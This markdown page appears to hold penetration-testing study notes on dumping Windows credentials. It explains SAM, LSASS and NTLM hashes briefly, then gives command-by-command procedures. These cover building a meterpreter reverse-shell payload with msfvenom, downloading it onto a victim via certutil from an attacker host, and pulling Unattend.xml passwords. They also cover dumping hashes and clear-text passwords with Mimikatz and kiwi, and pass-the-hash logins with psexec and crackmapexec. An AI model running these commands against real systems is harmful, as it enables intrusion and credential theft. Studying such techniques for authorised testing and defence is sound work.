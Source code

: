 # Windows Credential Dumping 
### Windows Password Hashes
- stored locally in the SAM (Security Accounts Manager) database
- authentication and verification of user credentials is facilitated by the Local Security Authority(LSA)
- NTLM hashing format
- SAM Database
	- responsible for managing user accounts and passwords
	- cannot be copied while the OS is running
	- Windows NT kernel keeps the SAM file locked
	- SAM hashes can be  dumped from the LSASS process
	- modern versions of windows, SAM DB is encrypted with a syskey
	- Elevated/Administrative privileges are required to access and interact with the LSASS process
- LM 
	- LanMan hashing algorithm
	- was implemented on windows OS
	- does not include salts
	- weak and outdated
- NTLM
	- NTHash
	- from windows vista onward
	- case sensitive
	- does not split the hash into two chunks
	- allows the user of symbols the Unicode characters
	- MD4 algorithm

### Searching for Passwords in Windows Configuration Files
- Unattended Windows Setup utily
- can be found 
	- C:\Windows\Panther\Unattend.xml
	- C:\Windows\Panther\Autounattend.xml
	- passwords stored by base64
- approach example
	- `$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe > payload.exe`
	- `$ python -m SimpleHTTPServer 80 - hosting web server`
	- download the payload on the victim computer
	- open cmd
	- `cd Desktop\`
	- `certutil -urlcache -f http://yourip/payload.exe payload.exe`
	- shut down the web server
	- `$ service postgresql start && msfcon`
	- `$ use multi/handler`
	- set payload windows/x64/meterpreter/reverse_tcp
	- configure the options
	- `run`
	- execute the payload on target sys
	- `$ sysinfo`
	- `$ cd C:\\`
	- `$ cd Panther`
	- `$ dir`
	- `$ download unattend.xml`
	- decode the password
	- `base64 -d password.txt`
	- `psexec.py Administrator@10.10.10.10`

### Dumping Hashes with Mimikatz
- Mimikatz	
	- Post-exploitation tool
	- extraction of clear-text passwords, hashes and Kerberos tickets from memory
	- from lsass.exe process
	- require elevated privileges to run correctly
- process
	- Nmap scan to find potentially vulnerable services
	- `$ service postgresql start && msfcon`
	- `$ search badblue`
	- `$ use 1`
	- configure options and run
	- `$ getuid`
	- `$ pgrep lasass`
	- `$ migrate`
	- `$ load kiwi` - build-in meterpreter module
	- `$ ?`
	- `$ lsa_dump_sum`
	- `$ lsa_dump_secrets`
	- using mimiktz
		- upload the mimikatz.exe to your target system
		- run mimikatz
		- `$ privilege::debug`
		- if answer was 20 ok, you have the required privileges
		- `$ lsadump::sam`
		- `$ lsadump::secrets`
		- `$ sekurlsa::logonpasswords`
### Pass-The-Hash Attacks
- Exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and using them to authenticate with the target legitimately
- tools
	- Metasploit PsExec module
	- Crackmapexec
- process
	- pgrep lsass
	- migrate p_id
	- load kiwi -- in meterpreter
	- lsa_dump_sam -- to get the NTLM hashes 
	- after gaining the hashes with kiwi
	- you need the LM hash - hashdump - LMhash:NTLMhash
	- `Search psexec`
	- `use 9`
	- `show options LPORT, RHOSTS, SMBUSER, SMBPass`
	- `set target Native\upload`
	- `exploit`
	- crackmapexec smb 192.168.0.1 -u username -H "NTLM Hash" -x "whoami"

